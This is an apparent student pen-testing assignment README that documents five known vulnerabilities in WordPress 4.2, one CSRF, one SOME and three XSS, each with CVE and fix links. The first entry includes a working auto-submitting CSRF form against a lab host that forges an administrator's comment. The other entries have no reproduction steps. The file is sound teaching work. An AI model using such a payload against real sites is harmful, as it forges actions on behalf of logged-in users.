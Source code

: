 # Project 7 - WordPress Pen Testing

Time spent: 17 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. CSRF

- [ ] Summary: 
  - Vulnerability types: CSRF
  - Tested in version: 4.2
  - Fixed in version: 4.2.23
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 1](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/1st%20vulnerability.gif)
- [ ] Steps to recreate: 
  - Log in as Administrator
  - Post a comment to check it is taking the admin's comment
  - Submit a malicious form that goes into /wp-comments-post.php hosted on github
  
   `<html>
	      <head></head>
	      <body>
		      <form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
			       <input type="hidden" name="comment" value="I made a comment">
			       <input type="hidden" name="comment_post_ID" value="1">
			       <input type="hidden" name="comment_parent" value="0">
			       <input type="hidden" name="_wp_unfiltered_html_comment" value="2746298102">
			       <input type="submit" value="Post+Comment">
		
		      </form> 
		      <script> document.csrfForm.submit(); </script>
	      </body>
    </html>`

  - The comment "I made a comment" will be posted after going to the github link which is submitting the form
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/changeset/44842)
  - [Link 2](https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b)
  
### 2. SOME (CVE-2016-4566)

- [ ] Summary: 
  - Vulnerability types: Pupload Same Origin Method Execution (SOME)
  - Tested in version: 4.2
  - Fixed in version: 4.2.8
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 2](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/2nd%20vulnerability.gif)
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
  - [Link 2](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)

### 3. XSS (CVE-2015-3440)

- [ ] Summary: 
  - Vulnerability types: Unauthenticated Stored Cross-Site Scripting (XSS)
  - Tested in version: 4.2
  - Fixed in version: 4.2.1
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 3](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/3rd%20vulnerability.gif)
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://www.exploit-db.com/exploits/36844)
  - [Link 2](https://klikki.fi/wordpress-4-2-core-stored-xss/)

### 4. XSS (CVE-2015-5734)

- [ ] Summary: 
  - Vulnerability types: Legacy Theme Preview Cross-Site Scripting (XSS)
  - Tested in version: 4.2
  - Fixed in version: 4.2.4
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 4](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/4th%20vulnerability.gif)
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/changeset/33549)
  - [Link 2](https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)

### 5. XSS (CVE-2016-1564)

- [ ] Summary: 
  - Vulnerability types: Authenticated Cross-Site Scripting (XSS)
  - Tested in version: 4.2
  - Fixed in version: 4.2.6
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 5](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/5th%20vulnerability.gif)
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...
<!-- Recommended GIF Tools:
[Kap](https://getkap.co/) for macOS
[ScreenToGif](https://www.screentogif.com/) for Windows
[peek](https://github.com/phw/peek) for Linux. -->

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
